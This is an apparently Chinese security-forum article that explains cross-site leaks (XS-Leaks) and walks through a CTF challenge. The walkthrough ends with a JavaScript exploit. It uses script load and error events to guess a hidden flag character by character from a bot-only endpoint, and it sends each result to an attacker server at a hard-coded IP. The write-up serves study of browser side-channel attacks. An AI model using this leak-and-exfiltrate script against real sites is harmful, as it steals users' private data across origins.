

# XSLeaks 技术利用-先知社区

> **来源**: https://xz.aliyun.com/news/17469  
> **文章ID**: 17469

---

# XSLeaks 技术利用

## XS-Leaks 概述

XS-Leaks 全称 Cross-site leaks，可以用来探测用户敏感信息。其与跨站请求伪造 CSRF 技术比较类似，主要区别在于，XS-Leaks 不是允许其他网站代表用户执行操作，而是可用通过测信道来推断用户信息。

浏览器提供各种功能来支持不同 Web 应用程序之间的交互。例如，它们允许网站加载子资源、导航或向另一个应用程序发送消息。虽然此类行为通常受到 Web 平台内置的安全机制（例如跨域请求 ）的约束，但 XS-Leaks 会利用网站之间交互过程中暴露的小块信息。

XS-Leak 的原理是使用网络上可用的侧通道来泄露有关用户的敏感信息，例如他们在其他网络应用程序中的数据、有关他们本地环境的详细信息或他们所连接的内部网络。

这些侧信道的来源通常有以下几类：

1. 浏览器 API（例如[帧计数](https://xsleaks.dev/docs/attacks/frame-counting/)和[计时攻击](https://xsleaks.dev/docs/attacks/timing-attacks/) ）
2. 浏览器实现细节和错误（例如[连接池](https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/)和 [typeMustMatch](https://xsleaks.dev/docs/attacks/historical/content-type/#typemustmatch) ）
3. 硬件错误（例如推测执行攻击 [4](https://xsleaks.dev/#fn:4) ）

## 简单例子

网站不得直接访问其他网站的数据，但可以从中加载资源并观察副作用。例如， *evil.com* 被禁止明确读取来自 *bank.com* 的响应，但 *evil.com* 可以尝试从 *bank.com* 加载脚本并确定该脚本是否成功加载。

假设 *bank.com* 有一个 API 端点，它返回有关用户针对给定类型的交易的收据的数据。

*evil.com* 可以尝试将 URL `bank.com/my_receipt?q=groceries` 作为脚本加载。默认情况下，浏览器在加载资源时会附加 cookie，因此对 *bank.com* 的请求将携带用户的凭据。

如果用户最近购买了杂货，则脚本会成功加载，并显示 *HTTP 200* 状态代码。如果用户尚未购买杂货，则请求会加载失败，并显示 *HTTP 404* 状态代码，**从而触发错误事件** 。

通过监听错误事件并使用不同的查询重复此方法，攻击者可以推断出有关用户交易历史的大量信息。

在这个例子中，两个不同来源的网站（ *evil.com* 和 *bank.com* ）通过浏览器允许网站使用的 API 进行交互。此交互没有利用浏览器或 *bank.com* 中的任何漏洞，但仍允许 *evil.com* 获取有关 *bank.com* 上用户数据的信息。

## 利用

这里拿最近 nctf 的 internal\_api 来进行利用举例，下载源码

main.rs

```
use std::{env, net::SocketAddr, sync::Arc};

use axum::{
    Router,
    routing::{get, post},
};
use internal_api::{db, route};
use tokio::net::TcpListener;

#[tokio::main]
async fn main() -> anyhow::Result<()> {
    let db_name = env::var("DB_NAME")?;
    let json_name = env::var("JSON_NAME")?;
    let flag = env::var("FLAG")?;

    let pool = db::init(db_name, json_name, flag)?;
    let app = Router::new()
        .route("/", get(route::index))
        .route("/report", post(route::report))
        .route("/search", get(route::public_search))
        .route("/internal/search", get(route::private_search))
        .with_state(Arc::new(pool));

    let addr = format!("{}:{}", env::var("HOST")?, env::var("PORT")?);
    let listener = TcpListener::bind(addr).await?;
    axum::serve(
        listener,
        app.into_make_service_with_connect_info::<SocketAddr>(),
    )
    .await?;

    Ok(())
}
```

分析一下源码，调用了 `db::init` 来初始化数据库，并且把 flag 作为了参数，跟进下 `db::init` 方法，看到就是把 flag 插入了数据库中并且 hidden 为 true。

```
pub fn init(db_name: String, json_name: String, flag: String) -> anyhow::Result<DbPool> {
    if Path::new(&db_name).exists() {
        fs::remove_file(&db_name)?;
    }

    let manager = SqliteConnectionManager::file(db_name);
    let pool = Pool::new(manager)?;

    let content = fs::read_to_string(json_name)?;
    let comments: Vec<String> = serde_json::from_str(&content)?;

    let conn = pool.get()?;
    conn.execute(
        "CREATE TABLE comments(content TEXT, hidden BOOLEAN)",
        params![],
    )?;

    for comment in comments {
        conn.execute(
            "INSERT INTO comments(content, hidden) VALUES(?, ?)",
            params![comment, false],
        )?;
    }

    conn.execute(
        "INSERT INTO comments(content, hidden) VALUES(?, ?)",
        params![flag, true],
    )?;

    Ok(pool)
}```

然后再看看 main.rs 中绑定的路由函数，根路由 index()就不用说了就是渲染 index.html，来到 `route::report`，

```rust
pub async fn report(Form(report): Form<Report>) -> Json<Value> {
    task::spawn(async move { bot::visit_url(report.url).await.unwrap() });

    Json(json!({
        "message": "bot will visit the url soon"
    }))
}
```

接受用户提交的 url，然后让机器人访问这个 url， `bot::visit_url` 方法也无需细看就是通过 google 浏览器进行访问 url，然后就是比较重要的两个方法了，

```
pub async fn public_search(
    Query(search): Query<Search>,
    State(pool): State<Arc<DbPool>>,
) -> Result<Json<Vec<String>>, AppError> {
    let pool = pool.clone();
    let conn = pool.get()?;
    let comments = db::search(conn, search.s, false)?;

    if comments.len() > 0 {
        Ok(Json(comments))
    } else {
        Err(anyhow!("No comments found").into())
    }
}

pub async fn private_search(
    Query(search): Query<Search>,
    State(pool): State<Arc<DbPool>>,
    ConnectInfo(addr): ConnectInfo<SocketAddr>,
) -> Result<Json<Vec<String>>, AppError> {
    // 以下两个 if 与题目无关, 你只需要知道: private_search 路由仅有 bot 才能访问

    // 本地环境 (docker compose)
    let bot_ip = tokio::net::lookup_host("bot:4444").await?.next().unwrap();
    if addr.ip() != bot_ip.ip() {
        return Err(anyhow!("only bot can access").into());
    }

    // 远程环境 (k8s)
    // if !addr.ip().is_loopback() {
    //     return Err(anyhow!("only bot can access").into());
    // }

    let conn = pool.get()?;
    let comments = db::search(conn, search.s, true)?;

    if comments.len() > 0 {
        Ok(Json(comments))
    } else {
        Err(anyhow!("No comments found").into())
    }
}

```

有注释 `private_search` 是只有机器人才能方法的，而两个 search 的区别是在调用 `db::search` 方法的第三个参数，public\_search 为 false，private\_search 是 true，

```
pub fn search(conn: DbConn, query: String, hidden: bool) -> anyhow::Result<Vec<String>> {
    let mut stmt =
        conn.prepare("SELECT content FROM comments WHERE content LIKE ? AND hidden = ?")?;
    let comments = stmt
        .query_map(params![format!("%{}%", query), hidden], |row| {
            Ok(row.get(0)?)
        })?
        .collect::<rusqlite::Result<Vec<String>>>()?;

    Ok(comments)
}
```

只有 hidden 为 true 才能查询到 flag，也就是说只有机器人才能查询 flag 内容。而上面分析得到我们可以通过机器人访问任意 url，在 url 中插入恶意 js 代码让 bot 进行查询，然后结合题目提示进行 XSLeaks 攻击，

exp.html，根据这个链接进行脚本修改：<https://wiki.scuctf.com/ctfwiki/web/9.xss/xsleaks/>

```
<script>
    const VPS_IP = 'http://47.109.156.81:4444'
const chars = "0123456789abcdef-}";

    const oracle = async (url) => {
        return new Promise((resolve, reject) => {
            let script = document.createElement("script");
            script.src = url;
            script.onload = resolve;
            script.onerror = reject;  
            document.head.appendChild(script);
        });
    }
    const search = async (url) => {
        try {
            await oracle(url)
            return true;
        } catch (e) {
            return false;
        }
    }

    (async () => {
        let flag = 'nctf{';
        let url = `http://127.0.0.1:8000/internal/search?s=${flag}`
        while (flag.charAt(flag.length - 1) !== "}") {
            for ( let i of chars ) {
            if ( await(search(url + i)) ) {
                url = url + i
                flag += i
                await fetch(`${VPS_IP}/?flag=${flag}`, {mode: 'no-cors'})
                break;
        }   else {
            console.log('failed');
            }
         }
        }
    })();
</script>
```

成功触发 onload 事件把结果发到 vps，失败触发onerror 事件。

把 exp.html 也放到 vps 上进行监听，让 bot 访问这个 html 文件触发 js 代码然后进行盲注。最后得到 flag。



参考：<https://wiki.scuctf.com/ctfwiki/web/9.xss/xsleaks/>
